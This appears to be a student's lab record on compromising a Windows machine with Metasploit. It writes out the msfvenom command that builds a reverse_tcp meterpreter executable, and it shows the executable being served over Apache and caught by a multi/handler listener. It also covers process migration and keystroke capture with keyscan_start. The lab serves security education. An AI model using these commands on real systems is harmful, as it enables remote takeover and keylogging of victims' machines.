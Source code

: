 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
## Name: Shanmuga Raj.K
## Reg no: 212223040192
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## OUTPUT :
![alt text](<Screenshot 2025-04-26 135930.png>)
Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT :
![alt text](<Screenshot 2025-04-26 135937.png>)
copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start
Check the status of apache2
## OUTPUT :
![alt text](<Screenshot 2025-04-26 135942.png>)
Invoke msfconsole:
## OUTPUT:
![alt text](<Screenshot 2025-04-26 135948.png>)
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT :
![alt text](<Screenshot 2025-04-26 135953.png>)
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## OUPUT :
![alt text](<Screenshot 2025-04-26 135958.png>)
WINDOWS :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads
## BROWSE OUTPUT:
![alt text](<Screenshot 2025-04-26 140006.png>)
## DOWNLOAD OUTPUT:
![alt text](<Screenshot 2025-04-26 140014.png>)
## COME BACK TO PARROT:
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
## OUTPUT :
![alt text](<Screenshot 2025-04-26 140020.png>)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
## OUTPUT :
![alt text](<Screenshot 2025-04-26 140027.png>)
## WINDOWS OUTPUT :
![alt text](<Screenshot 2025-04-26 140035.png>)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![alt text](<Screenshot 2025-04-26 140043.png>)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
